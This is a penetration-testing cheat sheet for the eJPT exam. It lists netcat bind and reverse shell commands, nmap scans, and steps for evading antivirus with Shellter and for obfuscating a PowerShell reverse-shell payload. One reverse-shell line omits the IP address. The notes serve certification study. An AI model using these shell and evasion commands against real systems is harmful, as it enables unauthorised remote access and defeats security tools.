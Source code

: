<p align="center">
    <img src="LogoBiggerBW.png" alt="BPM Circuits" width="300" />
</p>

<p align="center">
  eJPT-CheatSheets<br>
  Bartosz Pokrywka
</p>

<p align="center">
    Usefull info and commands for eJPT cert exam
</p>


# Vulnerability Scanning

## Shells

### Netcat Fundamentals

Can be used for:

- Banner Grabbing
- Port Scanning
- Transfering Files
- Bind/Reverse Shells

**Setup listener:**

    > nc -nvlp <port>

**Setup connection:**

    > nc -nv <IP> <port>

### Bind Shells

Downside of bind shell is that the firewall will probably block the connection.

**Target system:**

    > .\nc.exe -nvlp <port> -e cmd.exe

**Attacker system:**

    > nc -nv <IP> <port>

OR

**Target system:**

    > nc -nvlp <port> -c /bin/bash

**Attacker system:**

    > .\nc.exe -nv <IP> <port>

### Reverse Shells

Better thing: Attacker (Netcat Listener) <---- Target (Netcat Client)

**Target system:**

    > .\nc.exe -nv <port> -e cmd.exe

**Attacker system:**

    > nc -nvlp 1234

### Reverse Shell Cheatsheet

- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

- https://www.revshells.com

## Port Scanning and Enumeration

### NMAP

**Basic version scan:**

    > nmap <IP> -sV

**10k ports scan:**

    > nmap <IP> -T4 -PA -sC -sV -p 1-10000 -oX nmap_10k

**Scan UDP ports:**

    > nmap <IP> -sU -sV

### PHP

Sometimes there's a file:

    > phpinfo.php

Look for it...

## AV Evasopm & Obfuscation

### Shellter

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.

    > https://www.shellterproject.com

    > sudo apt install shellter -y

It requires Wine.

    > sudo wine shellter.exe

### PowerShell Code

- Invoke-Obfuscation is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator.

GitHub Repo:

    > https://github.com/danielbohannon/Invoke-Obfuscation

On Linux you need to install powershell in this case.

    > sudo apt install powershell -y

As the payload use for example:

    > https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

To load it:

    > SET SCRIPTPATH /path/to/your/shell.ps1

Choose option like "AST" or anything you like.

There are some options for AST, you can choose ALL ;)

You can also encode it:

    > ENCODE

For ASCII choose:

    > 1

Then copy the result into the file called like "obfuscated.ps1"...




